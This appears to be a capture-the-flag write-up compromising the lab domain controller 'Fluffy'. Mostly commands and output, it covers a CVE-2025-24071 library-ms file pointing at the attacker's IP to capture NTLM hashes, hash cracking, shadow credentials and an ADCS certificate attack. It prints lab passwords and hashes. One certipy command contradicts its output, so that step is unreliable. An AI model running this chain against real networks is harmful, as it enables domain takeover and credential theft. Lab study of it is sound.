



## Preface 
To start the box off we are given initial user credentials in the Machine Information:
> As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!

## Enumeration 
Initial nmap:
```
Nmap scan report for fluffy.htb (10.129.246.193)
Host is up (0.034s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-25 02:15:06Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-25T02:16:37+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-25T02:16:36+00:00; -1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T02:16:37+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T02:16:36+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49741/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-25T02:16:00
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.99 seconds

```

Using the provided credentials, we can enumerate all Active Directory users with `netexec`:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ nxc smb fluffy.htb -u users.txt -p pass.txt --users
SMB         10.129.246.193  445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.246.193  445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.246.193  445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.246.193  445    DC01             Administrator                 2025-04-17 15:45:01 0       Built-in account for administering the computer/domain 
SMB         10.129.246.193  445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.246.193  445    DC01             krbtgt                        2025-04-17 16:00:02 0       Key Distribution Center Service Account 
SMB         10.129.246.193  445    DC01             ca_svc                        2025-04-17 16:07:50 0        
SMB         10.129.246.193  445    DC01             ldap_svc                      2025-04-17 16:17:00 0        
SMB         10.129.246.193  445    DC01             p.agila                       2025-04-18 14:37:08 0        
SMB         10.129.246.193  445    DC01             winrm_svc                     2025-05-18 00:51:16 0        
SMB         10.129.246.193  445    DC01             j.coffey                      2025-04-19 12:09:55 0        
SMB         10.129.246.193  445    DC01             j.fleischman                  2025-05-16 14:46:55 0
```

Complete list of users:
```
Administrator
Guest
krbtgt
ca_svc
ldap_svc
p.agila
winrm_svc
j.coffey
j.fleischman
```

We can try to Kerberoast from netexec with the user account as well:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ nxc ldap fluffy.htb -u users.txt -p pass.txt --kerberoasting kerberoast.txt
LDAP        10.129.246.193     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.129.246.193     389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
LDAP        10.129.246.193     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.129.246.193     389    DC01             [*] Total of records returned 3
LDAP        10.129.246.193     389    DC01             [*] sAMAccountName: ca_svc, memberOf: ['CN=Service Accounts,CN=Users,DC=fluffy,DC=htb', 'CN=Cert Publishers,CN=Users,DC=fluffy,DC=htb'],
<...SNIP...>                    
LDAP        10.129.246.193     389    DC01             [*] sAMAccountName: ldap_svc, memberOf: CN=Service Accounts,CN=Users,DC=fluffy,DC=htb,
<...SNIP...>                   
LDAP        10.129.246.193     389    DC01             [*] sAMAccountName: winrm_svc, memberOf: ['CN=Service Accounts,CN=Users,DC=fluffy,DC=htb', 'CN=Remote Management Users,CN=Builtin,DC=fluffy,DC=htb'],
<...SNIP...>
```

We find three hashes, for ca_svc, ldap_svc, winrm_svc (all system accounts). Unsurprisingly, we cannot crack any passwords from these.

When enumerating SMB shares we can find read/write on a share "IT":

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ nxc smb fluffy.htb -u users.txt -p pass.txt --shares
SMB         10.129.246.193  445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.246.193  445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.246.193  445    DC01             [*] Enumerated shares
SMB         10.129.246.193  445    DC01             Share           Permissions     Remark
SMB         10.129.246.193  445    DC01             -----           -----------     ------
SMB         10.129.246.193  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.246.193  445    DC01             C$                              Default share
SMB         10.129.246.193  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.246.193  445    DC01             IT              READ,WRITE      
SMB         10.129.246.193  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.246.193  445    DC01             SYSVOL          READ            Logon server share
```

Inside we can find [Everything](https://en.wikipedia.org/wiki/Everything_(software)), Keepass and an Upgrade_Notice.pdf:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ smbclient \\\\fluffy.htb\\IT -U j.fleischman -W fluffy.htb
Password for [FLUFFY.HTB\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 25 02:23:46 2025
  ..                                  D        0  Sun May 25 02:23:46 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 15:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 15:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 15:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 15:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 14:31:07 2025
```

### Leaked vulnerability notes in SMB share

When reading the pdf, we can find notes on vulnerabilities the administrators intend to patch:



Listed CVE's in the notice:

[CVE-2025-24996](https://nvd.nist.gov/vuln/detail/CVE-2025-24996)
[CVE-2025-24071](https://nvd.nist.gov/vuln/detail/CVE-2025-24071)
[CVE-2025-46785](https://nvd.nist.gov/vuln/detail/CVE-2025-46785)
[CVE-2025-29968](https://nvd.nist.gov/vuln/detail/CVE-2025-29968)
[CVE-2025-21193](https://nvd.nist.gov/vuln/detail/CVE-2025-21193)
[CVE-2025-3445](https://nvd.nist.gov/vuln/detail/CVE-2025-3445)

### Using CVE-2025-24071 to steal NTLM hash

For CVE-2025-24071, there are POC's on github such as this: https://github.com/Marcejr117/CVE-2025-24071_PoC

The PoC primarily operates by crafting a malicious library-ms. Since we have write permissions on the IT share, we can upload a payload to that location. I created the following malicious library-ms that will point to my own IP address, `10.10.14.28`:
```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ cat exploit.library-ms 
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>Important Docs</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>Documents</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isDefaultNonOwnerSaveLocation>true</isDefaultNonOwnerSaveLocation>
      <simpleLocation>
        <url>\\10.10.14.28\asdf3</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Before sending, we need to set up responder:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]
<...SNIP...>
```

Now we can place the malicious library:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ smbclient \\\\fluffy.htb\\IT -U j.fleischman -W fluffy.htb
Password for [FLUFFY.HTB\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> put exploit.library-ms 
putting file exploit.library-ms as \exploit.library-ms (7.0 kb/s) (average 7.0 kb/s)
```

Meanwhile on Responder:

```
[SMB] NTLMv2-SSP Client   : 10.129.246.193
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:951545949441f4a9:D35128666ECC8903371A2F0ADF181D0E:010100000000000080829D0B1B29DC0113829DDA8108310800000000020008004600410052005A0001001E00570049004E002D00350053004A005200450032004700310036004E00560004003400570049004E002D00350053004A005200450032004700310036004E0056002E004600410052005A002E004C004F00430041004C00030014004600410052005A002E004C004F00430041004C00050014004600410052005A002E004C004F00430041004C000700080080829D0B1B29DC01060004000200000008003000300000000000000001000000002000007F78754F0AA39AF5499DFC3DB8344A937DB65F4C8A69363BDC726C5BD895D4420A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310038000000000000000000                                                                                          
[*] Skipping previously captured hash for FLUFFY\p.agila
```

We can crack the hash with john the ripper:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prometheusx-303  (p.agila)     
1g 0:00:00:01 DONE (2025-05-27 04:12) 0.5263g/s 2377Kp/s 2377Kc/s 2377KC/s proquis..programmercomputer
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

`p.agila:prometheusx-303`

## Lateral Movement
### Leveraging Bloodhound to enumerate potential escalation paths

Using `bloodhound` we can do further enumeration of the Active Directory environment. This can be done right away with user j.fleischman. Deploying bloodhound enumeration through netexec:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ nxc ldap fluffy.htb -k -u j.fleischman -p 'J0elTHEM4n1990!' --dns-server 10.129.246.193 --bloodhound -c All
LDAP        fluffy.htb      389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        fluffy.htb      389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
LDAP        fluffy.htb      389    DC01             Resolved collection methods: dcom, objectprops, localadmin, psremote, container, rdp, session, trusts, acl, group                                                                   
LDAP        fluffy.htb      389    DC01             Using kerberos auth without ccache, getting TGT
LDAP        fluffy.htb      389    DC01             Done in 00M 06S
LDAP        fluffy.htb      389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_fluffy.htb_2025-05-27_041615_bloodhound.zip
```

After importing our zip to bloodhound, we can find that our new user p.agila has GenericAll permissions over service accounts:



This active directory group Service Accounts has GenericWrite over all the service accounts:



### Abusing ACL GenericAll & GenericWrite

We can leverage this permission chain like so:
1. Leverage GenericAll to add our own user to "Service Accounts" group
2. Leverage the GenericWrite permission of Service Accounts to perform a Shadow Credentials attack, where we write our own authorizing keys to act as password-less authentication as the impacted user without ever knowing the end user's credentials.

First, the command to add our user to the Service Accounts group:

```
net rpc group addmem "Service Accounts" "p.agila" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S "DC01.FLUFFY.HTB"
```

Next using `pywhisker` to add shadow credentials to the user `winrm_svc`:

```
┌──(kali㉿kali)-[~/Documents/fluffy/pywhisker/pywhisker]
└─$ python pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 41f61c16-60f5-ebab-3009-4eb63f3ea5c4
[*] Updating the msDS-KeyCredentialLink attribute of winrm_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: NoeZBvAv.pfx
[+] PFX exportiert nach: NoeZBvAv.pfx
[i] Passwort für PFX: uruhNsn2plK16O5RxW4S
[+] Saved PFX (#PKCS12) certificate & key at path: NoeZBvAv.pfx
[*] Must be used with password: uruhNsn2plK16O5RxW4S
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

With the certificates we can generate krb5ccname for Kerberos authentication:

```
┌──(kali㉿kali)-[~/Documents/fluffy/PKINITtools]
└─$ python gettgtpkinit.py -cert-pfx ../pywhisker/pywhisker/NoeZBvAv.pfx -pfx-pass uruhNsn2plK16O5RxW4S -dc-ip 10.129.246.193 fluffy.htb/winrm_svc out
2025-05-25 20:28:38,218 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-25 20:28:38,229 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-25 20:28:42,530 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-25 20:28:42,530 minikerberos INFO     7290ccf8ee6b6bdf789380a86513e9210bdc0ac5ada7e2fa15e458d8c4d4456d
INFO:minikerberos:7290ccf8ee6b6bdf789380a86513e9210bdc0ac5ada7e2fa15e458d8c4d4456d
2025-05-25 20:28:42,532 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Export it to my env:

```
┌──(kali㉿kali)-[~/Documents/fluffy/PKINITtools]
└─$ export KRB5CCNAME=out
```

Last, we can use `getnthash` to get the NT hash for NTLM authentication:

```
┌──(kali㉿kali)-[~/Documents/fluffy/PKINITtools]
└─$ python getnthash.py fluffy.htb/winrm_svc -key 7290ccf8ee6b6bdf789380a86513e9210bdc0ac5ada7e2fa15e458d8c4d4456d
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767
```

Finally we can use evil-winrm to access the system remotely:

```
┌──(kali㉿kali)-[~/Documents/fluffy]
└─$ evil-winrm -i fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

We can repeat the same steps for the other service accounts as well.
- ca_svc hash: ca0f4f9e9eb8a092addf53bb03fc98c8
- ldap_svc hash: 22151d74ba3de931a352cba1f9393a37

## Privilege Escalation
### Enumerating ADCS with Certipy

Note: the next section requires use of `certipy`, however the installed version of 5.0.1 in kali was having issues performing the attack chain. As such, I created a venv of certipy for the latest 5.0.2 version.

Create and activate a virtual environment:

```shell
python3 -m venv certipy-venv
source certipy-venv/bin/activate
```

First enumerate certificate templates:

```
┌──(certipy-venv)─(kali㉿kali)-[~/Documents/fluffy]
└─$ certipy find -username ca_svc@fluffy.htb -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69
Certipy v5.0.2 - by Oliver Lyak (ly4k)
<...SNIP...>
[*] Saving text output to '20250527044711_Certipy.txt'
[*] Wrote text output to '20250527044711_Certipy.txt'
[*] Saving JSON output to '20250527044711_Certipy.json'
[*] Wrote JSON output to '20250527044711_Certipy.json'
```

### Leveraging Certipy to abuse ESC2+ESC3

From the output, we can see Certificate 32 is vulnerable to ESC2+ESC3:

```json
    "32": {
      "Template Name": "User",
      "Display Name": "User",
      "Certificate Authorities": [
        "fluffy-DC01-CA"
      ],
 <...SNIP...>
      "[+] User Enrollable Principals": [
        "FLUFFY.HTB\\Domain Users"
      ],
      "[*] Remarks": {
        "ESC2 Target Template": "Template can be targeted as part of ESC2 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template has schema version 1.",
        "ESC3 Target Template": "Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template has schema version 1."
      }
```

The wiki mentioned is the following: https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation

First, update our user account `ca_svc` with the Administrator upn:

```
┌──(certipy-venv)─(kali㉿kali)-[~/Documents/fluffy]
└─$ certipy account -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user 'ca_svc' -upn 'administrator' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

Next requesting the "Any Purpose" certificate:

```
┌──(certipy-venv)─(kali㉿kali)-[~/Documents/fluffy]
└─$ certipy req -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -target fluffy.htb -ca "fluffy-DC01-CA" -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Now we need to un-update our user:

```
┌──(certipy-venv)─(kali㉿kali)-[~/Documents/fluffy]
└─$ certipy account -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user 'ca_svc' -upn 'administrator' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc
[*] Successfully updated 'ca_svc'
```

Next, requesting a certificate on behalf of the Administrator:

```
┌──(certipy-venv)─(kali㉿kali)-[~/Documents/fluffy]
└─$ certipy auth -dc-ip 10.10.11.69 -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

Now we can authenticate as admin!

```
┌──(certipy-venv)─(kali㉿kali)-[~/Documents/fluffy]
└─$ nxc smb fluffy.htb -u Administrator -H 8da83a3fa618b6e3a00e93f676c92a6e                                 
SMB         10.129.245.161  445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.245.161  445    DC01             [+] fluffy.htb\Administrator:8da83a3fa618b6e3a00e93f676c92a6e (Pwn3d!)
```
